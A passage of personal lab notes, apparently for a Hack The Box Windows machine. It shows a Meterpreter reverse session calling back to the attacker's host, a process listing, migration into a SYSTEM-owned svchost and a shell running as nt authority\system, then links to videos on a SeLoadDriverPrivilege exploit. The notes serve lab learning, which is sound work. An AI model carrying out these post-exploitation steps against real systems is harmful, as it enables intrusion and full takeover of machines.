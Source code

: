 [*] Meterpreter session 1 opened (10.10.14.25:9999 -> 10.10.11.108:59481) at 2025-04-21 19:54:03 -0400

meterpreter > ps

---OUTPUT---
...
...
1452  620   svchost.exe       x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\svchost
                                                                          .exe
 1496  620   svchost.exe       x64   0        NT AUTHORITY\LOCAL SERVICE  C:\Windows\System32\svchost
                                                                          .exe
 1512  620   svchost.exe       x64   0        NT AUTHORITY\NETWORK SERVI  C:\Windows\System32\svchost
                                              CE                          .exe
 1536  620   svchost.exe       x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\svchost
                                                                          .exe
 1620  620   svchost.exe       x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\svchost
                                                                          .exe
 1664  620   svchost.exe       x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\svchost
                                                                          .exe
 1684  620   svchost.exe       x64   0        NT AUTHORITY\LOCAL SERVICE  C:\Windows\System32\svchost
                                                                          .exe
 1744  620   svchost.exe       x64   0        NT AUTHORITY\LOCAL SERVICE  C:\Windows\System32\svchost
                                                                          .exe
 1812  620   svchost.exe       x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\svchost
...
...
```
- We migrate to another pid and get a shell:
	```bash
meterpreter > migrate 1664
meterpreter > shell

---OUTPUT-MIGRATE---
[*] Migrating from 368 to 1664...
[*] Migration completed successfully.

---OUTPUT-SHELL---
Process 4612 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
	- We get a stable shell and can grab the user flag.
## SeLoadDriverPrivilege exploit (Exploit from Windows)
- I think the HTB lab Fuse by Ippsec show's how we can exploit it:
	- https://www.youtube.com/watch?v=VxbC03xmS60&t=1610s&ab_channel=IppSec
		- Says he explains it even more in Fighter htb
			- https://www.youtube.com/watch?v=CW4mI5BkP9E&t=55s&ab_channel=IppSec
				- Needs to be done on Windows (To do)